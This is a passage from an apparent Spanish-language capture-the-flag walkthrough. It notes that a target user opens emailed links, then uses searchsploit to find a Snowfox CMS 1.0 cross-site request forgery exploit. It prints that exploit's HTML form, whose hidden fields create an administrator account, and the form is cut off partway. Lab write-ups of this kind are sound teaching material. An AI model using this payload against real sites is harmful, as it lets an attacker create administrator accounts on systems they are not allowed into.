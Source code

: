 <img src="/assets/VH/CasinoRoyale/testcsrf.png">

Hemos confirmado que valenka revisa el enlace que le pasamos por correo. Buscamos vulenrabilidades asociadas al gestor de contenido `Snowfox` y localizamos una plantilla em HTML para crear un usuario administrador en el gestor de contenido

```bash
❯ searchsploit snowfox
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                 |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Snowfox CMS 1.0 - Cross-Site Request Forgery (Add Admin)                                                                                                                                       | php/webapps/35301.html
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
❯ searchsploit -x php/webapps/35301.html
.
.
.
<html>
  <body>
    <form action="http://10.0.18.3/snowfox/?uri=admin/accounts/create" method="POST">
      <input type="hidden" name="emailAddress" value="lab@zeroscience.mk" />
      <input type="hidden" name="verifiedEmail" value="verified" />
      <input type="hidden" name="username" value="USERNAME" />
      <input type="hidden" name="newPassword" value="PASSWORD" />
```